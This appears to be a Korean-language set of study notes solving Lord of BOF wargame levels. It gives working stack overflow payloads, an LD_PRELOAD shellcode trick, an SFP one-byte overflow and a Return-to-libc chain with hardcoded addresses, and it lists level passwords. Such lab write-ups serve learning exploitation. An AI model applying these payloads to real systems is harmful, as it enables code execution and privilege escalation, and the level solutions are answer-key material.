 핵심: argv hunter 라도 argv[0] 값은 저장하고 있는 주소가 있으므로 파일명에 SHELLCODE 삽입

[skeleton] ./golem `python -c 'print "A" * 44 + "\x38\xf7\xff\xbf"'`
pwd: cup of coffee

—————STACK 다 사라졌을 때 —————

공유 라이브러리 활용 - ( -fPIC -shared )
프로그램이 시작될 때 이 프로그램에 의해서 적재되는 라이브러리
$ touch shared_lib.c
$ gcc -fPIC -shared -o $(python -c ‘print “\x90” *100 + “\x2f 없는 SHELLCODE”’) shared_lib.c

export LD_PRELOAD=/home/skeleton/$(python -c ‘print “\x90” * 100 + “\x2f 없는 SHELLCODE”’)

[golem] ./darknight `python -c ‘print “SHELLCODE” + “\x90” * 15 + “\x88”’`

pwd: new attacker

SFP Overflow 
함수의 1byte로 EBP 값을 변경하면 ebp + 4 값이 eip (호출 받은 함수의 종료 후 실행할 다음 명령어 주소) 값 인데 SHELLCODE가 담긴 buf 로 eip 값을 조작하여 쉘을 딴다. 

disas problem_child

[darkknight] ./bugbear `python -c 'print "\x90" * 44 + "\xe0\x8a\x05\x40" + "\x90" * 4 + "\xf9\xbf\x0f\x40"'`

pwd: new divide

RTL (Return-to-libc): NX bit 보호 기법 우회 
NX bit: Stack Segment 의 Execute 권한을 제한하여 스택에 SHELLCODE 를 삽입하여 return 주소를 overwrite 하더라도 공격이 적용되지 않는 경우 사용 
libc: 메모리에 미리 적재되어 있는 공유 라이브러리 이용하여 공격

Payload: dummy(40) + SFP(4) + system 함수 주소(4) + dummy(4) + /bin/sh 주소 (4) 

dummy (4) 이유: system 함수가 실행되고 난 후 실행되는 부분인데 쉘을 실행시키는게 목적이므로 dummy 값으로 채워줌 

eip주소 부분 -> system 함수의 주소 (change) 
ebp+4 부분은 인자가 존재해야하므로 /bin/sh 주소를 넘겨줌. 

p system 주소: 0x40058ae0 
/bin/sh 주소: 0x400fbff9

[/bin/sh address 찾는 C코드] 

#include <stdio.h>
#include <string.h>

int main(void) {
        long addr = 0x40058ae0;
        while(memcmp((void *) addr, "/bin/sh", 8)) {
                addr++;
        }
        printf("0x%x\n", addr);

        return 0;
}

[bugbear] ./giant "`python -c 'print "\x90" * 44 + "\x48\x9d\x0a\x40" + "\xe0\x8a\x05\x40" + "\x90" * 4 + "\xf9\xbf\x0f\x40"'`" 
